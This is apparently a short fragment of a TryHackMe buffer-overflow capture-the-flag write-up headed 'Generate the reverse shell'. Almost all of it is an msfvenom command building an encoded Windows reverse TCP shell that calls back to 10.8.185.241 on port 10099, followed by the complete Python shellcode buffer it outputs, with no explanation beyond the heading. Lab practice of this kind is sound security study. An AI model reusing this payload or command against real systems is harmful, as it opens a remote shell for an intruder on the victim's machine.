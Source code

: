 ## Generate the reverse shell

```bash
┌──(kali㉿kali)-[~/CTFs/THM/Buffer-Overflow-Prep/oscp.exe-1]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.8.185.241 LPORT=10099 -e x86/shikata_ga_nai -i 3 -f py -b '\x00\x07\x2e\xa0' EXITFUNC=thread
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai chosen with final size 405
Payload size: 405 bytes
Final size of py file: 1983 bytes
buf =  b""
buf += b"\xdb\xd1\xd9\x74\x24\xf4\xba\x2f\xa4\x75\x5d\x58\x29"
buf += b"\xc9\xb1\x5f\x31\x50\x19\x03\x50\x19\x83\xe8\xfc\xcd"
buf += b"\x51\xca\x04\x03\x33\x38\x6d\xfc\x9a\x37\xb5\xf6\x45"
buf += b"\x8b\x7c\x47\x2d\xda\x06\xb2\x4d\xf4\x0b\xbf\x29\x14"
buf += b"\x16\x13\x01\x75\x02\x51\x5b\xfd\xf6\x03\x1f\xdd\x43"
buf += b"\x32\xf6\x37\x71\x13\xed\x98\xbe\x7d\x56\x44\xfc\xb2"
buf += b"\x6a\x1c\x57\xc8\xd5\x23\xd2\x0d\xc6\x6b\x81\x76\x15"
buf += b"\x67\xcd\x3c\xf9\x18\x05\x8b\xe4\x46\x46\x21\xec\x93"
buf += b"\x34\x83\xdb\x9b\x6e\xe8\xde\x3d\xe7\x51\x86\x03\x08"
buf += b"\x04\xca\xaa\x55\xd4\x2c\x56\x58\xf1\x25\x30\x51\x89"
buf += b"\xc7\x08\x84\x51\xf2\xfc\x33\xda\x26\x84\x06\xa9\x2f"
buf += b"\x5b\xa6\x91\xcc\x64\xfb\xc2\x3f\xb7\x75\xed\x47\xf0"
buf += b"\x27\x0a\x6c\x25\x51\x10\x3a\x44\x46\xc6\xbe\xbd\x79"
buf += b"\xe4\x56\x9c\x92\x69\x51\x44\xf6\x53\x92\x13\x45\xcc"
buf += b"\xea\x7f\x54\x45\xcf\x08\x12\xa8\x3b\x62\xf3\x3a\x7b"
buf += b"\xba\x40\xe1\xe2\x21\x8f\xdb\xc0\xb9\xb5\x5f\x35\x41"
buf += b"\xa5\x2d\x43\x41\x1d\x5e\x39\x66\x71\x6b\xcf\x30\x59"
buf += b"\x4e\x71\x1e\x85\x9c\x8e\x99\xcb\xd3\xfc\x4f\x9e\xb2"
buf += b"\x80\x4d\xc6\xa9\x15\x74\xd7\x5d\xa2\x19\x7f\x4a\x12"
buf += b"\x70\xf5\x6a\x01\xa3\xd2\x9b\x2c\x21\x76\x8b\x32\x9c"
buf += b"\xf0\x3a\x77\xd3\xb6\xd5\xe1\x2d\x1a\xf3\xa3\xd1\xe4"
buf += b"\x5d\xac\xfb\x90\x77\x49\x72\x51\xc7\x6a\x30\xb8\x2a"
buf += b"\x1d\xcd\x56\x90\xb7\x85\x8c\x5a\xa9\x8a\xaa\xf9\x71"
buf += b"\xdc\x8a\x97\xa5\x83\x56\xe8\x99\x4a\xef\x52\x71\x9f"
buf += b"\x51\x8b\x62\x0e\x76\x32\x5c\xe9\xdd\x4d\x9e\x7a\x50"
buf += b"\x0a\x4c\x1a\x4f\xc9\x57\x62\x5f\x03\x61\xd1\xe2\x94"
buf += b"\xcd\x22\xa1\xda\x35\xa9\x8b\x15\x44\x67\x5d\xbd\xa5"
buf += b"\x1f\xd8\x5c\xca\xfc\x8b\xe6\xeb\x81\x06\xe5\x7a\x67"
buf += b"\x38\x74\xfb\x95\x31\xf0\x16\xd2\xe6\xa6\xfb\x73\xfe"
buf += b"\x2a\xbf\x7a\x78\x31\x7a\x92\x6d\x08\xf6\x87\x8a\x59"
buf += b"\x62\x84\xb0\x29\x15\x6a\x08\x57\xcd\x51\xce\x33\x18"
buf += b"\x5f\xbf"
```
